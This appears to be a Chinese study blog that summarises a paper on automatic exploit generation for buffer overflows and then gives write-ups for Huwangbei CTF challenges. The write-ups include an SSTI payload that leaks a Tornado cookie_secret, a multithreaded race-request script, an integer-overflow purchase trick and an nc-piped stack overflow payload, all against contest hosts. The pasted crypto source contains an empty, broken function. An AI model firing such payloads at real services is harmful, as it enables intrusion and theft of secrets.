



## 0x01 Paper

《Automatic Exploit Generation for Buffer Overflow Vulnerabilities》2018 IEEE International Conference on Software Quality

IEEE会议的文章也可以这么水？？？

AEG当然都是先找漏洞然后在exploit，感觉一般都是缓冲区溢出的多，这篇文章研究的**栈上的bof**  
额，还是忍不住diss

做了什么：
    1. AEG的基本，定位+生成Exp  
    2. 绕过NX+ALSR

#### 1. 整体框架如图



第二部分使用BFS来遍历，查看IP指针指向的值，如果这个值超过可访问地址，就是溢出，记得angr里可以直接检测。检测过程中跳过了编译器在程序头添加的一些代码。  
第三部分使用ret2libc绕过NX，使用"jmp esp"绕过ASLR


#### 2. 绕过

设计了表达式来描述：



常规的bypass方法：



#### 3. 实现+实验

说是用的angr和RP++，其中angr的深度设置为400  
测试集为CGC和Csmith的生成数据  

之后说了说缺点，亘古不变的缺点：不能检测大程序和路径爆炸


#### 4. Reference

Heelan S. Automatic generation of control flow hijacking exploits for software vulnerabilities MI. 2009

Ramos D A, Engler D. Under-constrained symbolic execution correctness checking for real code [C Usenix Conference on Security Symposium. USENIX Association, 2015: 49-64

Stephens N, Grosen J, Salls C, et al. Driller: Augmenting fuzzing through selective symbolic execution C] Proceedings of the Network and Distributed System Security S ymposium. 2016

Hme M, Pham V T, Roychoudhury A. Coverage-based Greybox Fuzzing as Markov Chain [C] ACM Sigsac onference on Computer and Communications Security. ACM, 2016: 1032-1043

Kulenovic M, Donko D. A survey of static code analysis methods for security vulnerabilities detection [C International Convention on Information and Communication Technology, Electronics and Microelectronics. IEEE. 2014: 1381-1386

Pistoia M, Chandra S, Fink S J. Et al. A survey of static analysis methods for identifying security vulnerabilities in software systems J]. Ibm Systems Journal, 2007, 46 (2): 265-288

Bao T, Burket J, Woo M, et al. BYTE WEIGHT: learning to recognize functions in binary code [C Usenix Security Symposium. USENX Association. 2014

Hanov S Static Analysis of Binary Executables J]. Stevehanov Ca Eschweiler S. Y akdan K. Gerhards-padilla E. DISCOVRE. Efficient Cross Architecture Identification of Bugs in Binary Code C The Network and Distributed System Security Symposium. 2016

Wang S, Wang P, Wu D. Reassembleable disassembling [C Usenix Conference on Security Symposium. USENIX Association, 2015: 627 642.

Meng X, Miller B P. Binary code is not easy [C] International Symposium on Software Testing and Analysis. 2016: 24-35

Heelan S. Automatic generation of control flow hijacking exploits for software vulnerabilities MI. 2009

Avgerinos T, Sang K C, Rebert A, et al. Automatic exploit generation] Communications of the Acm, 2014, 57 (2): 74-84

Kapus T, Cadar C Automatic testing of symbolic execution engines via program generation and differential testing  [C Proceedings of the 32 nd IEEE/ACM International Conference on Automated Software

Engineering. IEEE Press, 2017: 590-600 Wang S, Wang P, Wu D. Reassembleable disassembling [] Usenix Conference on Security Symposium. USENIX Association, 2015: 627

Pewny J, Garmany B, Gawlik R, et al. Cross-architecture Bug Search in Binary Executables [C Security and Privacy. IEEE, 2015: 709-724

## 0x02 护网杯

菜🐔

#### 1. web - easy tornado

题目给了三个链接：

hint.txt 
md5(cookie_secret + md5(filename))
hint.txt  b71a752e4d5388b9e3ab2dc1aebd8f21 9222bc1559ca9869cf9bd1eb651a9bc8

Orz.txt 
render()
Orz.txt 3ce480777eef4e1a694d678c8deb19fa 1f7f8b9a4759b67b66b9d02cbaaec4e0

flag.txt 
/fllllllllllag  
flag.txt 159df48875627e2f7f66dae584c5e3a5 e978ea3d6b7018e27f762ba225ba338f

保错链接：/error?msg=%E7%AD%BE%E5%90%8D%E9%94%99%E8%AF%AF

msg存在模版注入，然而过滤了`',(,_`等，想找想`config`这样的关键字，未果。。。想想如果要是全部功能的SSTI就不用涉及提示中的md5了，所以就是读取配置文件获取cookie_secret。。。然后跑偏了到了Python沙盒逃逸，之后开始翻tornado文档，试了试一些关键字，终于找到了

> RequestHandler.settings  
> An alias for self.application.settings.

啊嘿～~`http://117.78.26.114:32389/error?msg={{%20handler.settings%20}}`，出来～～

> Whoops, looks like somethings went wrong .   
> {'login_url': '/login', 'template_path': 'templates', 'xsrf_cookies': True, 'cookie_secret': 's+Ke}?WMqHuoN${fRYjhDS1)k[lxgAwyO&V^_T<d@Up-QC!iGaItP.b3*%E]>#L0', 'debug': False, 'file_path': '/www/static/files', 'static_path': 'static'}

模版注入相关：

[websitesVulnerableToSSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI)  
[server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)


#### 2. web - ltshop

第一感觉是竞争，然后burp跑了一下最多获得8个大辣条，换不了几个辣条之王就更别说换flag了。要跑几千万个大辣条？？？

嗯，然后看了WP。。。兑换辣条之王时有溢出，当时只是测了`-1`，额秀逗了，以为自己测过溢出。。。

是个uint64的整数，范围0-18446744073709551615。后台的检测应该是"5*兑换的数量?<已有"，所以兑换数量为3689348814741910324时，发生溢出，成功兑换，也就有个兑换flag的辣条之王。

附一个多线程的代码：

```python

import multiprocessing
from requests.exceptions import RequestException
from requests.adapters import HTTPAdapter
import re, os, json, requests, time
import traceback

def main():
    url = 'http://117.78.26.114:30805/buylt'
    cookie = 'b7bc3d53-1291-420c-8745-0075fbebda2c'
    headers = {'Cookie':'go_iris_cookie='+ cookie}
    k = requests.post(url,headers=headers)
    print k.content

if __name__ == '__main__':
    results = []
    pool = multiprocessing.Pool(processes=20)
    for i in range(0xff):
        results.append(pool.apply_async(main,))
    pool.close()
    pool.join()
```

#### 3. crypto - FEZ

源码：

```python
import os
def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
def f(x,k):
    return xor(xor(x,k),7)
def round(M,K):
    L=M[0:27]
    R=M[27:54]
    new_l=R
    new_r=xor(xor(R,L),K)
    return new_l+new_r

def unround(M, K):

def fez(m,K):
    for i in K:
        m=round(m,i)
    return m

K=[]
for i in range(7):
    K.append(os.urandom(27))
print K
m=open("flag","rb").read()
assert len(m)<54
m+=os.urandom(54-len(m))

test=os.urandom(54)
#test = "0b7361c8143e5935f9f5be3949cc07ed7a5ba6f258ebd91f29c5a7d16976f8dfb7fa422a6167281e573d015cc6d995841d5cab07923c".decode("hex")
print test.encode("hex")
print fez(test,K).encode("hex")
print fez(m,K).encode("hex")

```

手动算一算，加密流程就是穿进54位，前27位为A，后27位为B，最后生成新的54位，前27位是A^X，后27位是A^B^Y，其中XY是K中几项的运算结果，可以推出XY的值，然后就可以得到结果。。。

#### 3. Pwn - gettingstart

额呵？我是二进制选手？？？只水了一道最简单的。其中又一个判断变量是否等于0.1，之后自己手动写了一个反汇编看一下数据的表示。

```python
(python -c "print 'A' * 24 + '\xff\xff\xff\xff\xff\xff\xff\x7f' + '\x9a\x99\x99\x99\x99\x99\xb9\x3f'";cat -) | nc 117.78.26.19 30838
```

